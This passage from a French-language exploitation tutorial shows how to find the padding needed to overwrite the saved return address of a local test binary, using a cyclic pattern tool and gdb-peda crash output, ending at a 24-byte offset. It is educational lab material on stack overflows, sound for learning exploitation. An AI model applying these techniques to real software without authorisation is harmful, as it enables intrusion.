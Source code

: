 Parfait, notre programme est prêt à être exploiter.

# Exploitation du programme

Les choses commence à être intéréssant, nous allons essayer de trouver le `padding` pour écraser le `Return Address Overwrite` ou bien `l'adresse de retour` (ou sauvegarde `EIP`).

Nous allons créer un petit pattern pour trouver le padding à l'aide d'un outil que vous pouvez installer rapidement [ici](https://github.com/Svenito/exploit-pattern) et par la suite lancer la commande juste ci-dessous.

    root@0xEX75:~/rop# pattern create 100
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Et lançons `gdb` (GNU Debugger), et ensuite d'envoyer les octets au programme pour trouver le bon `padding`. Il y a bien evidamment d'autre technique pour trouver le `padding` mais c'est la technique la plus amusante selon moi et plus simple aha.

    root@0xEX75:~/rop# gdb -q rop
    Reading symbols from rop...(no debugging symbols found)...done.
    gdb-peda$ r <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    Program received signal SIGSEGV, Segmentation fault.                                                                                                                            
    [----------------------------------registers-----------------------------------]                                                                                                
    EAX: 0x65 ('e')
    EBX: 0x80481a8 (<_init>:        push   ebx)
    ECX: 0xffffffff 
    EDX: 0x80ec4d4 --> 0x0 
    ESI: 0x80eb00c --> 0x80642f0 (<__strcpy_ssse3>: mov    edx,DWORD PTR [esp+0x4])
    EDI: 0x0 
    EBP: 0x61413561 ('a5Aa')
    ESP: 0xffffd540 ("Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
    EIP: 0x37614136 ('6Aa7')
    EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x37614136
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd540 ("Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
    0004| 0xffffd544 ("a9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
    0008| 0xffffd548 ("0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
    0012| 0xffffd54c ("Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
    0016| 0xffffd550 ("b3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
    0020| 0xffffd554 ("4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
    0024| 0xffffd558 ("Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
    0028| 0xffffd55c ("b7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x37614136 in ?? ()
    gdb-peda$

Par la suite, nous allons à nouveau utiliser le programme pour trouver pour de bon le `padding`, donc d'après le programme nous aurons besoin de `24` octets pour écraser la sauvegarde `EIP` donc l'adresse de retour. 
